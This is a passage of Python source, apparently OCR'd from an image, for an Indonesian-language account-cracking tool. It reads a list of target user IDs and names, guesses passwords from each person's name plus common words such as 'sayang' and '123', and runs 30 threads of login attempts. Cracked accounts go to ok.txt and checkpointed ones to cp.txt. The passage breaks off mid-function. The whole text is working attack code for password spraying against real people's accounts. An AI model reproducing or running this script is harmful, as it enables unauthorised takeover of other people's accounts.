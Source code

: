 def atursandi():
	print(f"\n\n [+] total id -> {len(id)}")
	ask = input(" [?] mau gunakan sandi manual atau otomatis?[o/m] : ")
	if ask in["m","M"]:
		manual()
	else:
		otomatis()

def otomatis():
	print("""
 [1]. metode mobile reguler
 [2]. metode mobile validate
""")
	ask = input(" [?] pilih : ")
	if ask in["1"]:
		mtd_dev.append("reguler")
		generateotomatis()
	else:
		mtd_dev.append("validate")
		generateotomatis()
		
def manual():
	pwz = input(" [+] buat kata sandi : ")
	if len(pwz) <= 6:
		print("minimal 6 huruf")
	print("""
 [1]. metode mobile reguler
 [2]. metode mobile validate
""")
	ask = input(" [?] pilih : ")
	if ask in["1"]:
		mtd_dev.append("reguler")
		generatemanual(pwz)
	else:
		mtd_dev.append("validate")
		generatemanual(pwz)
	
def generatemanual(pwz):
	print("\n [+] hasil crack ok tersimpan di -> ok.txt")
	print(" [+] hasil crack cp tersimpan di -> cp.txt\n")
	with ThreadPoolExecutor(max_workers=30) as fall:
		for user in id:
			pwx = []
			uid, zzz = user.split("<=>")[0], user.split("<=>")[1].lower()
			for z in pwz.split(","):
				pwx.append(z)
			if "reguler" in mtd_dev:
				fall.submit(metode_reguler,uid,pwx)
			elif "validate" in mtd_dev:
				fall.submit(metode_validate,uid,pwx)

def generateotomatis():
	print("\n [+] hasil crack ok tersimpan di -> ok.txt")
	print(" [+] hasil crack cp tersimpan di -> cp.txt\n")
	with ThreadPoolExecutor(max_workers=30) as fall:
		for user in id:
			pwx = []
			uid, zzz = user.split("<=>")[0], user.split("<=>")[1].lower()
			xxz = zzz.split(" ")[0]
			pwx = ["sayang"]
			if len(zzz)<6:
				if len(xxz)<3:
					pass
				else:
					pwx.append(xxz+"123")